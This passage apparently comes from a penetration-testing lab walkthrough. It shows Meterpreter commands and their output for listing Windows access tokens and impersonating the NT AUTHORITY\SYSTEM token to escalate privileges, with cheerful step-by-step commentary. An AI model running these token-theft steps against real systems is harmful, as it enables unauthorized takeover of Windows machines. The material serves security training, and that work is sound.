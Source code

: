 #### **What Happened:**
```bash
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\SYSTEM
WORKSTATION\Administrator

Impersonation Tokens Available  
========================================
NT AUTHORITY\ANONYMOUS LOGON
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
WORKSTATION\user1
```

#### **🎉 Excellent Discovery! What We Found:**
- **SYSTEM Token Available** - Highest privilege level possible
- **Administrator Token** - Local admin account token  
- **Current User Token** - Our own user1 token
- **Service Tokens** - Various system service accounts

#### **🎯 Attack Strategy:**
We have access to both SYSTEM and Administrator tokens. SYSTEM is the highest level, so we'll target that first.

---

### **Step 4: Steal the SYSTEM Token**

**What We're Doing:** Impersonating the SYSTEM account to get maximum privileges

#### **Commands Used:**
```bash
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
meterpreter > getuid
```

#### **🚀 Amazing Success! What Happened:**
```bash
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[+] Delegation token successfully impersonated (result=0)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### **🏆 Perfect Results! What This Means:**
- **Impersonation Successful** - We stole the SYSTEM token
- **Highest Privileges Achieved** - SYSTEM is the most powerful account
- **Complete System Control** - Can access anything on this computer
- **Mission Accomplished** - Privilege escalation completed successfully

---
